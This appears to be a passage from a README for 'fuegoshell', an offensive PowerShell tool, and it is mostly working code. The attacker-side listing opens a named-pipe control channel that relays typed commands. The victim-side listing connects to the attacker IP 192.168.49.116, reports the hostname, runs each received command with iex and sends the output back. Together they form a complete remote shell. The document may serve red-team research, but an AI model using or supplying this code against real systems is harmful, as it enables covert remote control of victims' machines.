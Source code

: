 In the powershell console 2 run :

```
$host.ui.RawUI.WindowTitle = "CONTROL-CHANNEL";
$pipecontrol = new-object System.IO.Pipes.NamedPipeServerStream 'fuego-control','Out';
$pipecontrol.WaitForConnection();
$sw = new-object System.IO.StreamWriter $pipecontrol;
$sw.AutoFlush = $true;
$myprompt = 'fuegoShell>';
do { 
    $mycmd = Read-Host -Prompt $myprompt;
    $sw.WriteLine($mycmd) 
    } until ($mycmd -eq 'exit');
$sw.Dispose();
$pipecontrol.Dispose();
```


### **On the victim side : connect to the attacker** 

We will : 

- open a named pipe, connecting to the "**data channel**" listening on attacker's  machine
- open a second named pipe, connecting to the "**control channel**" also listening on attacker's  machine
- retrieve the command to execute (from the control pipe), execute the command, send back the result (using the data pipe)
- close the channels when we are done 

In a Powershell command prompt :  


```
# open control and data channels
$pipedata = new-object System.IO.Pipes.NamedPipeClientStream '192.168.49.116','fuego-data','Out';
$pipedata.Connect();
$sw = new-object System.IO.StreamWriter $pipedata;
$sw.AutoFlush = $true;
$currentHost = iex 'hostname' | Out-String;
$sw.WriteLine("-------------------------");
$sw.WriteLine("[+] New incoming shell from : ");
$sw.WriteLine($currentHost);$sw.WriteLine("---");
$pipeListener = new-object System.IO.Pipes.NamedPipeClientStream '192.168.49.116','fuego-control','In'; 
$pipeListener.Connect();
$sr= new-object System.IO.StreamReader $pipeListener;$mylogmsg = '[cmdlog]> ';

# wait for commands from the C2, execute and send the result
while (($data = $sr.ReadLine()) -ne 'exit') {
    $currentDate = Get-Date -Format "yyyyMMdd_HHmmss" ;
    $res = iex $data | Out-String ;
    $sw.WriteLine($currentDate+$mylogmsg+$data);
    $sw.WriteLine($res)
    };

# close named pipes
$sw.Dispose();
$pipeListener.Dispose();
$sr.Dispose();
$pipedata.Dispose();
```


[LINK1]: https://www.x33fcon.com/#!archive/2023/con.md  
[LINK2]: https://www.youtube.com/watch?v=PfjPBEqn51M 
[LINK3]: https://twitter.com/yossi_sassi
[LINK4]: https://github.com/v1k1ngfr/fuegoshell/